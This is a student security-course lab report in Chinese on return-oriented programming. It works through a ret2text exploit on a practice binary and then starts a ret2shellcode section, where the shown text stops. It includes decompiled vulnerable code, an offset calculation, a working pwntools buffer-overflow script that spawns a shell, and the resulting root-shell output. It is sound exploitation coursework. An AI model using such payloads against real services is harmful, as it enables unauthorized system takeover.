

# <center>软件与系统安全 实验2B L1<center>  
**<p align="center">赵旭 2022E8015082079**<p>

### ROP：
ROP（Return-Oriented Programming）是一种基于代码重用的攻击技术，通过利用程序中的可执行代码（gadget）来构建攻击代码序列。攻击者通过伪造栈帧和构造恶意payload来实现将程序的控制权转移到攻击者指定的代码位置，从而实现攻击目的。
ROP攻击是一种非常强大的攻击技术，可以绕过ASLR等保护机制，同时无需利用漏洞的shellcode等可疑代码，往往能够实现难以察觉的远程攻击。因此，ROP攻击已经成为现代漏洞利用的主要方式之一，对于系统安全研究人员和安全工程师来说，掌握ROP攻击技术至关重要。

在本实验中，我们对一些基本的ROP应用场景进行攻击，最终目标为获取系统的shell从而获取进一步的控制权。

实验环境： Ubuntu 22.04.1 LTS (5.15.90.1-microsoft-standard-WSL2)、IDA Pro 7.7.220118、Python 3.10.6

### ret2text:
#### 背景：
ret2text是一种基于栈溢出的攻击技术，其利用目标程序中的未被打开保护的栈溢出漏洞，将攻击者指定的shellcode注入程序堆栈，并利用栈溢出漏洞控制程序的流程，将程序执行流程转移到栈上注入的shellcode，最终实现我们的目的。
#### 流程：
首先使用checksec检查其保护机制
```bash
root@AimerLegion:~/exp2/binary# checksec ret2text
[*] '/root/exp2/binary/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
由此可知这是一个32位x86架构程序，具有以下特征：部分重定位只读（Partial RELRO），没有开启堆栈保护（No canary found），开启了堆栈不可执行（NX enabled），没有启用位置独立性保护（No PIE），利用IDA查看其main函数源码:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```
在主函数中使用了gets()函数，说明可以利用缓冲区溢出，随后查看secure()函数源码：
```C
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```
其中调用了system("/bin/sh")，查询其地址为：
```x86asm
.text:0804863A     mov  dword ptr [esp], offset command ; "/bin/sh"
```
因此我们的目标是利用gets()函数对缓冲区进行溢出，覆盖main函数的返回地址为0804863A，从而获取系统的shell，剩下的工作是计算需要溢出的字段长度。

我们在gets()函数处设置断点，各寄存器值为：

由此可得s相对于返回位置的偏移为EBP-EAX+4=0xFFBBBDA8-0xFFBBBD3C=0x6C+4

因此，我们应填充0x6C+4个垃圾字符，随后放入system("/bin/sh")的地址0x0804863A，随后即可调用shell，程序代码为：
```python
from pwn import *
from pwnlib.util.packing import p32

sh = process('binary/ret2text')
target = 0x804863a
payload = b'A' * (0x6c+4) + p32(target)
sh.sendline(payload)
sh.interactive() 
```
#### 运行结果：
```shell
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2text.py
[+] Starting local process 'binary/ret2text': pid 12659
[*] Switching to interactive mode
There is something amazing here, do you know anything?
Maybe I will tell you next time !$ ls
README.md  assets  binary  code  linux_server64  report.md
$ whoami
root
$  
```
可见成功调用了shell，攻击成功。

### ret2shellcode:
#### 背景：
ret2shellcode的攻击方式是将栈上存储的shellcode作为攻击载荷，通过栈溢出漏洞将程序的控制流指向该shellcode，从而实现攻击目的。攻击者通常通过生成恶意shellcode的工具，将shellcode写入栈中，然后通过修改程序的栈帧，将程序的返回地址指向存储shellcode的地址。当程序执行到存储在栈上的shellcode时，恶意代码将被执行，从而实现任意代码执行的攻击。相比之下，ret2text攻击是将程序代码中的某些可执行指令作为攻击载荷，通过栈溢出漏洞将程序的返回地址指向该指令的地址，从而实现攻击目的。其不同之处在于ret2shellcode攻击需要利用恶意shellcode实现任意代码执行，而ret2text攻击则需要利用程序本身的可执行指令来实现恶意代码执行。
#### 流程：
首先使用checksec检查其保护机制
```bash
root@AimerLegion:~/exp2/binary# checksec ret2shellcode
[*] '/root/exp2/binary/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
该程序部分重定位只读，没有开启堆栈保护，关闭了堆栈不可执行，没有启用位置独立性保护，具有可读可写可执行的段，完美符合我们的攻击条件，查看其main函数源码为：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
同样存在溢出攻击的漏洞，而且该程序将s复制到buf2中，通过调试可发现buf2在bss中，即
